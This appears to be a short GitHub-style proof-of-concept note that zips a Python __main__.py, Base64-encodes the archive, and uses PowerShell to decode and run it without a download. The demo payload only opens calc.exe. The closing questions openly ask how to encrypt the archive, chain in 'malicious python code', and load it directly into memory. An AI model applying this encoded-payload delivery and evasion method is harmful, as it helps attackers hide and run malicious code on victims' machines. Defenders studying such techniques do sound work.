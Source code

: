 # Python Code, Zipped, Base64 Encoded, Powershell Command with no download to deploy POC
## create __main__.py
```python
import os, sys
os.system('calc.exe')
```
## zip __main__.py file and Base64 Encode it
```powershell
Compress-Archive -Path .\__main__.py -DestinationPath .\python.zip
$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Path\to\python.zip'))
echo $base64string

$base64string | Out-File '.\python64.txt'
cat .\python64.txt
```
#### Output: 
```
UEsDBBQAAAAIAAIYZVX04o2dJQAAACUAAAALAAAAX19tYWluX18ucHnLzC3ILypRyC/WUSiuLOblyi/WA9Ilqbka6smJOcl6qRWp6poAUEsBAhQAFAAAAAgAAhhlVfTijZ0lAAAAJQAAAAsAAAAAAAAAAAAAAAAAAAAAAF9fbWFpbl9fLnB5UEsFBgAAAAABAAEAOQAAAE4AAAAAAA==
```

## Base64 Decode to zip file
```powershell
$FileName = $HOME + '\python.zip'
[IO.File]::WriteAllBytes($FileName, [Convert]::FromBase64String('UEsDBBQAAAAIAAIYZVX04o2dJQAAACUAAAALAAAAX19tYWluX18ucHnLzC3ILypRyC/WUSiuLOblyi/WA9Ilqbka6smJOcl6qRWp6poAUEsBAhQAFAAAAAgAAhhlVfTijZ0lAAAAJQAAAAsAAAAAAAAAAAAAAAAAAAAAAF9fbWFpbl9fLnB5UEsFBgAAAAABAAEAOQAAAE4AAAAAAA=='))
python $FileName 
```

#### Questions:
- can I add password protection or encryption? 
- could I chain this with malicious python code, which can be run from inside the zip file?
- could I remove or run the contents from powershell? 
- could I load contents directly into ram? 


